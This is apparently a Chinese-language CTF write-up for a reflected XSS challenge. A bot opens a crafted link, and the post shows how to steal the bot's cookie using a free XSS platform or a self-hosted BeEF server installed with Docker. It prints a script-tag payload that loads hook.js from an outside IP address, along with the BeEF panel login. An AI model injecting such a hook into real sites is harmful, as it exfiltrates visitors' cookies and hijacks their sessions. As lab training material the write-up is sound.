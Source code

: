 ```yaml
---
title: xss reflect
date: 2020-05-30 10:46:38
tags: CTF
---
```



## 题目
from https://www.ctfhub.com/
name存在xss漏洞，将注入xss的url发送给bot,服务器会打开这个链接，从而获取到服务器的cookie并拿到flag
![](/images/xss/web.png)

## 方法1:使用免费xss平台
https://xsshs.cn/

![](/images/xss/xsshs.png)
![](/images/xss/xsshs-flag.png)


## 方法2：购买VPS搭建beef平台

### 安装beef
``` bash
# install docker 
sudo apt-get update

sudo apt-get install -y \
    apt-transport-https \
    ca-certificates \
    curl \
    gnupg-agent \
    software-properties-common

curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo apt-key add -
sudo apt-key fingerprint 0EBFCD88

sudo add-apt-repository \
   "deb [arch=amd64] https://download.docker.com/linux/ubuntu \
   $(lsb_release -cs) \
   stable"

sudo apt-get install -y docker-ce docker-ce-cli containerd.io

# install beef

# https://github.com/phocean/dockerfile-beef

docker run --rm -it --net=host -v $HOME/.msf4:/root/.msf4:Z -v /tmp/msf:/tmp/data:Z --name=beef phocean/beef
```

### 利用xss注入beef hook
``` js
<script src="http://45.63.54.77:3000/hook.js" type="text/javascript" ></script>
```
![](/images/xss/beef.png)

### 登录beef(beef:Pass123) 获得cookie和flag
http://45.63.54.77:3000/ui/authentication 
![](/images/xss/beef-flag.png)

